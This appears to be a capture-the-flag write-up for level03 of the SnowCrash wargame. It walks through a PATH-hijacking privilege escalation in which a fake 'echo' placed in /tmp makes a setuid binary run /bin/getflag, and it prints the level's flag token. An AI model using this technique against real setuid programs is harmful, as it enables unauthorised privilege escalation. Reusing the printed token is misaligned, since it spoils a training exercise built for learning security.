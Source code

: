 ```
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile

level03@SnowCrash:~$ ./level03
Exploit me
```
Looks like we have to exploit it! 
We use `strings` to determine the contents of and extract text from the binary file:
```
level03@SnowCrash:~$ strings level03
...
/usr/bin/env echo Exploit me
...
```
The idea here is to execute file `/bin/getflag` as *flag03* which is uid for level03 file <br />
This can be done by using a simple exploit - creating our own `echo` and putting it in PATH. Essentially, we are substituting system echo for our file
```
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:~$ touch echo
level03@SnowCrash:~$ /tmp$ echo '/bin/getflag' > echo
level03@SnowCrash:~$ chmod 777 echo
level03@SnowCrash:~$ /tmp$ ls -l echo
-rwxrwxrwx 1 level03 level03 13 Sep 14 22:08 echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ /tmp$ printenv | grep PATH
PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```
Time to rum `level03` once more:
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
